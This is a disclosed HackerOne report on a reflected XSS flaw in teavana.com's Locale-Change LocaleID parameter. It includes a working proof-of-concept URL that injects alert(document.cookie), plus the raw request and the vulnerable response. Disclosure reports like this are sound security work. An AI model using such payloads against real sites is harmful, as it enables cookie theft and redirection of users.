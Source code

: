 # Reflected XSS on teavana.com (Locale-Change)

## Report Details
- **Report ID**: 190798
- **URL**: https://hackerone.com/reports/190798
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-12-13T11:40:29.111Z
- **Disclosed**: 2017-06-09T00:00:19.014Z

## Reporter
- **Username**: inhibitor181
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
SUMMARY
----
Hello, the link at https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Locale-Change?LocaleID=en_CA (was identified by changing languages) is prone to reflected XSS in the "en" zone of the LocaleID parameter. One can inject javascript that will be reflected back to the target while calling the modified link. 

POC
-----
https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Locale-Change?LocaleID=eas%27;alert(document.cookie);//an_CA

This injection is possible because the contents before the _CA are not validated and it will be injected in the response.

Request :

```
GET /on/demandware.store/Sites-Teavana-Site/default/Locale-Change?LocaleID=eas%27;alert(1);//dasdsan_CA HTTP/1.1
Host: www.teavana.com
```

Response :

```
<script type="text/javascript">
var uri = 'https:///on/demandware.store/Sites-StarbucksCA-Site/eas';alert(1);//dasdsan_CA/Home-Show';
uri=decodeURIComponent(uri);
if(uri.indexOf("/ca/en") >=0){
  uri=uri.replace("/ca/en","");
}
else if(uri.indexOf("/ca/fr") >=0){
  uri=uri.replace("/ca/fr","");
}
window.location = uri;
</script>
```

Note the : var uri = 'https:///on/demandware.store/Sites-StarbucksCA-Site/eas';alert(1);//dasdsan_CA/Home-Show';

This can also be modified to easily make an open redirect.

Also attached screenshot.

## Attachments
- xss_tea.png
